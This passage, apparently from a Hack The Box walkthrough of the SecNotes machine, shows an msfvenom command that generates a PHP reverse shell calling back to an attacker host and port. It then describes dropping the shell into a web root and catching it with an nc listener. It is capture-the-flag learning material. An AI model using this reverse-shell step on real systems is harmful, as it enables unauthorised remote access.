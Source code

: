 Appears to be the `wwwroot` of the other `http` service: `8808/tcp`. And since the site is running PHP, let's copy a reverse shell written in PHP over to the new site. We can generate the reverse shell with `msfvenom` like so.

```
# msfvenom -p php/reverse_php LHOST=10.10.12.9 LPORT=1234 -o rev.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3004 bytes
Saved as: rev.php
```

Visit http://10.10.10.97:8808/rev.php.

<a class="image-popup">
![df14467b.png](/assets/images/posts/secnotes-htb-walkthrough/df14467b.png)
</a>

Meanwhile at my `nc` listener...


[1]: https://www.hackthebox.eu/home/machines/profile/151
[2]: https://www.hackthebox.eu/home/users/profile/4935
[3]: https://www.hackthebox.eu/